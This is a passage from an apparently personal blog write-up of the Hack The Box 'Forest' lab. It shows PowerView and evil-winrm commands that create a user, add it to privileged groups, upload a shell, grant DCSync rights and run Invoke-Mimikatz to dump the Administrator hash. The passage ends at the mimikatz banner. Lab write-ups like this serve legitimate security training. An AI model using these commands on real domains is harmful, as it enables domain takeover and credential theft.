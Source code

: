 For the next few steps, I used [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). I started by first creating a new user named yakuhito:

{% highlight powershell %}
PS C:\Users\svc-alfresco\Documents> Import-Module ./PowerView.ps1
PS C:\Users\svc-alfresco\Documents> New-LocalUser "yakuhito" -Password $(ConvertTo-SecureString 'yakuhito' -AsPlainText -Force)
PS C:\Users\svc-alfresco\Documents>
{% endhighlight %}

I then added yakuhito to 'Exchange Windows Permissions', as well as the 'Remote Management Users' group so I'll be able to connect to the new account via evil-winrm:

{% highlight powershell %}
PS C:\Users\svc-alfresco\Documents> $Group = Get-ADGroup -Identity "CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local"
PS C:\Users\svc-alfresco\Documents> Add-ADGroupMember -Identity $Group -Members yakuhito
PS C:\Users\svc-alfresco\Documents> $Group2 = Get-ADGroup -Identity "CN=Remote Management Users,CN=Builtin,DC=htb,DC=local"
PS C:\Users\svc-alfresco\Documents> Add-ADGroupMember -Identity $Group2 -Members yakuhito

{% endhighlight %}

The next step was to connect as yakuhito using evil-winrm and re-upload my PowerShell shell:

{% highlight powershell %}
root@fury-battlestation:~/htb/blog/forest/evil-winrm# ruby evil-winrm.rb -i forest.htb -u yakuhito -p yakuhito

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\yakuhito\Documents> upload ./shell.ps1
Info: Uploading ./shell.ps1 to C:\Users\yakuhito\Documents\shell.ps1

                                                             
Data: 816 bytes of 816 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\yakuhito\Documents>
{% endhighlight %}

## Exploiting WriteDACL

I was logged in as yakuhito, so I had WriteDACL permissions over the whole HTB.LOCAL domain. WriteDACL stands for Write Discretionary Access Control List. This right allowed me to perform a [DcSync attack](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync) that got me Administrator's NTLM hash. To perform this attack, I also used [Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).

{% highlight powershell %}
PS C:\Users\yakuhito\Documents> Import-Module ./PowerView.ps1
PS C:\Users\yakuhito\Documents> Add-DomainObjectAcl -TargetIdentity htb -PrincipalIdentity yakuhito -Rights DCSync -Verbose 2>&1
PS C:\Users\yakuhito\Documents> Import-Module ./Invoke-Mimikatz.ps1
PS C:\Users\yakuhito\Documents> Invoke-MimiKatz -Command """lsadump::dcsync /domain:htb.local /user:Administrator"""

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */
